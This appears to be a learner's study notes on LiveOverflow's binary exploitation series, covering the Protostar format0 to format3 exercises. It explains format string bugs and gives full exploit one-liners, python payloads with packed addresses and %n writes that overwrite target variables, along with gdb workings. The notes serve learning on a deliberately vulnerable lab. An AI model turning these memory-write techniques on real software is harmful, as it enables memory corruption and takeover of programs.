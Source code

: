 # LiveOverflow Binary Exploitation / Memory Corruption

### 0x10 Reversing C programs in 64bit vs 32 bit

Interesting walkthrough done on reversing executables in 64bit and 32bit while observing the differences and similarities in terms of the assembly code

### Format0

- Structure of stack (typically)

    ![](./images/stack.jpg)

- We can assume/RE and come to a conclusion that the buffer allocated in the stack comes before the

    ```
    (gdb) print &target
    $1 = (volatile int *) 0xbffffc9c
    (gdb) print &buffer
    $2 = (char (*)[64]) 0xbffffc5c
    ```

- printf outputs to stdout while sprintf outputs to a variable. Both equally vulnerable to format string attacks

- All we need to do is to overflow the buffer by sending a string of 64 chars + 0xdeadbeef

- We can optionally use a formatted string %64d instead of literally printing 64 chars to fill the buffer before overflowing to the target variable

- Answer:

    `/opt/protostar/bin/format0 $(python -c "print '%64d\xef\xbe\xad\xde'")`

    `/opt/protostar/bin/format0 $(python -c "print 'A'*64+'\xef\xbe\xad\xde'")`

### 0x11 Format String Exploit using Format1 Exercise

- Fundamentals:

    1. Format Strings allows you to specify variables as format paameters within the string itself.

    2. In the C language, if you use a format string without specifying format parameters, the compiler will take format parameters from memory, resulting in a format string attack which is essentially a memory leakage (similar to HeartBleed vulnerability)

    3. All we need to do is to print enough format parameters till we can find the location of our supplied parameters on the stack. Then, use the %n to write to the correct memory location

    4. We can use the following to get the memory location of variables (run the program and add a breakpoint):

        ```
        (gdb) whatis target
        type = int
        (gdb) info address target
        Symbol "target" is static storage at address 0x8049638.
        (gdb) x 0x8049638
        0x8049638 <target>:	0x00000000
        (gdb) print &target
        $3 = (int *) 0x80496f4
        (gdb) x/wx 0x80496f4
        0x80496f4 <target>:	0x00000000
        ```

        `objdump -t BINARY`

- Answer:

    CLI Version: `/opt/protostar/bin/format1 "$(python -c "import struct; print('AAAAAAAAAAAAAAAAAAAAAA' + struct.pack('I',0x8049638) + 'BB' + '%x_'*135 + '__%n')")"`

    GDB Version: `(gdb) r $(python -c "import struct; print('AAAAAAAAAAAAAAAAAAAAAA' + struct.pack('I',0x8049638) + 'BB' + '%x_'*136 + '______%n')")`

### Format2

- Same idea as format1, just that now we need to set a particular value to target

- For a given "%4$08n" format string, what the compiler will do is that it will directly access the 4th parameter on stack with "4$" and write the address (\xe4\x96\x04\x08) there with "%08n"

- Answer

    METHOD 1: `python -c "import struct;print('AAAA'+struct.pack('I', 0x080496e4)+'BBBBBBBBBBBBBBBBBBBBB'+'%x__'*4 + '%n')" | /opt/protostar/bin/format2`

    METHOD 2: `python -c 'print "\xe4\x96\x04\x08" + "%60d" + "%4$n"' | /opt/protostar/bin/format2`

### Format3

- Same idea as format2 but we can't do it using method 1 as the value to write to memory is too huge

- Have to use method 2, but there's actually 3 different ways to do it:

    1. 4byte

        - No difference from method 2

        - `python -c 'print "\xf4\x96\x04\x08" + "%16930112x" + "%12$n"' | /opt/protostar/bin/format3`

        - Use gdb to calculate offset `(gdb) print 0x01025544 - 0x04`

    2. 2byte

        - Did not really understand the method that they used:

            `python -c 'print "\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%250x%13$hn" + "%21570x%12$hn"' | /opt/protostar/bin/format3`

        - Improvised from 1byte method

            `python -c 'print "\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21820x%12$n" + "%43966x%13$n" ' | /opt/protostar/bin/format3`

        - Workings

            ```
            0x(0008)[0008]
            0x0102|5544|
            
            (gdb) print |0x5544| - [0x8]
            $11 = 21820
            
            0x{5544}5544 -> answer
            
            (gdb) print 0x#10#102 - {0x5544} -> ## added cause its negative
            $16 = 43966
            ```

    3. 1byte

        - `python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "\xf7\x96\x04\x08" + "%52x%12$n" + "%17x%13$n" + "%173x%14$n" + "%255x%15$n"' | /opt/protostar/bin/format3`

### SSH problem fix (no matching host key type found)

ssh -oHostKeyAlgorithms=+ssh-dss XXX@XXX.XXX.XXX.XXX

### References

https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-2-73ef08011a8c

https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-3-33e8d8f1e83

https://stackoverflow.com/questions/4462915/find-the-exact-address-of-variable-buf

https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf

https://askubuntu.com/questions/836048/ssh-returns-no-matching-host-key-type-found-their-offer-ssh-dss

https://askubuntu.com/questions/1222835/lubuntu-18-04-cant-ssh-to-cisco-router-no-matching-key-exchange-method-found?rq=1